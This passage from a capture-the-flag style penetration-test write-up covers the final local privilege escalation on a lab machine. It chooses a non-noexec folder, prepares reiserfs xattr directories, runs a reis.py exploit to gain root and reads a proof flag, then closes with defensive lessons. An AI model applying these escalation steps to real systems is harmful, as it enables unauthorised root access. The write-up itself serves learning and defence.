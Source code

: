 Find a good location (not mounted with noexec)…  => /dev/shm

[![image](:/456dcf8dc9ea41ef83ec78422cb00b8a "image")](https://www.corelan.be/wp-content/uploads/2010/05/image40.png)

(I moved the reis.py file to that location)

(important to note that /apachelogs does not show up in the mount list… but I didn’t try to mount it myself… perhaps I should have).

**Step 4** : prepare folders

```
cd /apachelogs
mkdir .reiserfs_priv
mkdir .reiserfs_priv/xattrs
```

**Step 5** : 0wn

Current situation :

```
/apachelogs/data/corelanc0d3r  => compiled payload
/dev/shm/reis.py => python script
```

Launch the exploit :

```
cd /dev/shm
ls
reis.py

python ./reis.py
id
uid=0(r00t) gid=0(r00t) groups=33(www-data)
```

```
cat /root/proof.txt
sDSjnSo22bSe12sadjdjrudfknk4455qndlas4
```

#### Conclusions

- Using redirects and custom reponses, modifying headers etc are good. They will slow down scripts and script kiddies but won’t stop seasoned hackers from discovering the real identity/engines and/or breaking into the system.
- Although it was somewhat hidden, the “ghost” machine runs some vulnerable code, giving an attacker the ability to issue commands on the system and get a shell. Don’t rely on the “need to know” principle. Hackers will find out that you planted files somewhere and if it’s vulnerable, they will use it to hack into your system.
- The web server runs with a low privilege account, but the combination of the vulnerable code, with insecure file/folder permissions (write access + execute access) may allow for further exploitation.
- On top of that, the reiserfs implementation is buggy and can allow an attacker to escalate privileges, essentially allowing him to obtain root permissions.
- Weak firewall rules : allowing a server to access other servers (outbound connections), when that is not really necessary, may provide a hacker the ability to serve/download malicious files.
